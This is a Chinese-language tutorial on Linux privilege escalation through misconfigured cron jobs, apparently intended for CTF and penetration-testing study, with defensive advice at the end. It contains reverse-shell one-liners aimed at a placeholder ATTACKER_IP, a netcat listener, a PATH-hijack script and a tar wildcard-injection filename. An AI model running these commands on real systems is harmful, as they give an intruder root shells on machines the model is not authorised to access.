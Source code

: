 # ⏰ Linux 權限提升技巧：Cron Jobs（定時任務）

## 📘 基本概念

- **Cron 作業（Cron jobs）** 是 Linux 系統中用來在指定時間自動執行指令或腳本的機制。
- 每個使用者都可設置自己的 `crontab`，但**Cron 作業會以該 crontab 所屬使用者的權限執行**。
- **攻擊重點在於：** 如果一個由 root 執行的 cron 任務中呼叫的腳本或程式可被低權限使用者修改，那麼該腳本就會以 root 權限被執行，可導致提權。

---

## 🎯 攻擊條件

1. 有一個由 root 執行的 cron 任務（可透過 `/etc/crontab` 或 `/etc/cron.d/` 等查看）
2. 任務中呼叫的腳本（如 `/opt/backup.sh`）可由低權限使用者編輯或覆寫
3. 任務會在短時間內執行（如每分鐘）

---


## 攻擊步驟
### 1. 🔍 檢查關鍵檔案與路徑

- 查看系統等級 cron 任務：
  
  ```bash
  cat /etc/crontab
  ls -l /etc/cron.d/
  ```

- 查看目前使用者 crontab 任務：

  ```bash
  crontab -l
  ```

- 檢查是否有可寫的 cron 腳本：

  ```bash
  find / -writable -name '*.sh' 2>/dev/null
  ```

---

### 2. 🛠 修改 cron 腳本取得 root 權限

1. 找到一個 root 執行的 cron 任務（如 `/opt/backup.sh` 每分鐘執行）
2. 檢查腳本是否可編輯：

   ```bash
   ls -l /opt/backup.sh
   ```

3. 修改該腳本注入反向 shell：

   ```bash
   echo "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1" > /opt/backup.sh
   ```

4. 在攻擊機器啟動監聽：

   ```bash
   nc -lvnp PORT
   ```

5. 等待 cron 執行腳本，取得 root 權限 shell。

---

## 路徑漏洞濫用技巧（當腳本不存在）

### 範例情境：

- `/etc/crontab` 中有：

  ```
  * * * * * root antivirus.sh
  ```

- `antivirus.sh` 不存在，cron 會依 PATH 搜尋
- 可在 `/home/user/` 中建立可被搜尋到的 `antivirus.sh`

### 利用方式：

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1" > ~/antivirus.sh
chmod +x ~/antivirus.sh
```

當 cron 執行時就會跑這個假腳本。

---

## 🧨 常見錯誤配置導致漏洞

| 錯誤情況 | 說明 |
|----------|------|
| 指定了可被使用者寫入的腳本路徑 | 如 `/opt/backup.sh` 可被 `user` 寫入 |
| 腳本已被刪除，但 cron 任務仍存在 | 攻擊者可在 PATH 中建立同名腳本欺騙 cron |
| 未指定完整腳本路徑 | 導致 cron 依 PATH 執行可控的腳本 |

---

## 🧰 延伸利用：Wildcard Injection

- 若腳本中使用像 `tar`、`7z`、`rsync` 等工具，攻擊者可利用通配符注入方式提權。
- 例如：建立名稱特殊的檔案 `--checkpoint-action=exec=sh shell.sh`，執行 `tar` 時會觸發 `shell.sh`。

---

## 🛡 防禦建議

- 所有 cron 任務中的腳本應設為 **root-only 可寫**
- 定期清理不再使用的 cron 任務與腳本
- 指定腳本的完整路徑並確認檔案存在
- 限制使用者對於 `/etc/cron*` 目錄與任意執行檔的寫入權限

---

## ✅ 小結

- Cron 提權重點是：**由 root 執行、但腳本可被低權限使用者控制**
- 是許多 CTF 與真實世界滲透測試中常見的權限提升手法
- 配置錯誤（如腳本遺失、權限錯誤）是可被利用的主要原因

